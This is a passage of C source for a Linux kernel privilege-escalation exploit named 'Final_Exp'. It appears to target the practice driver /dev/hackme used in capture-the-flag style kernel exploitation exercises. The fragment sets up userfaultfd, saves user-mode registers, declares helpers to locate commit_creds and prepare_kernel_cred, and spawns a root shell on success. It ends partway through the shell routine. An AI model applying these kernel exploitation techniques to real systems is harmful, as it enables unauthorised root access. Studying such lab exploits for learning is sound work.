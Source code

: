 

#### Final_Exp

```c
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <sched.h>
#include <sys/mman.h>
#include <signal.h>
#include <sys/syscall.h>
#include <sys/ioctl.h>
#include <linux/userfaultfd.h>
#include <sys/wait.h>
#include <poll.h>
#include <unistd.h>
#include <stdlib.h>

void get_commit_creds();
void get_prepare_kernel_cred();
void get_cred_sturct();
void stage_1();
void stage_2();
void stage_3();
void stage_4();

int global_fd;

void open_dev(){
    global_fd = open("/dev/hackme", O_RDWR);
	if (global_fd < 0){
		puts("[!] Failed to open device");
		exit(-1);
	} else {
        puts("[*] Opened device");
    }
}

void close_dev(){
    close(global_fd);
}

unsigned long user_cs, user_ss, user_rflags, user_sp;
void save_state(){
    __asm__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
        ".att_syntax;"
    );
    puts("[*] Saved state");
}

void get_shell(void){
    puts("[*] Returned to userland");
    if (getuid() == 0){
        printf("[*] UID: %d, got root!\n", getuid());
        system("/bin/sh");
    } else {
        printf("[!] UID: %d, didn't get root\n", getuid());
```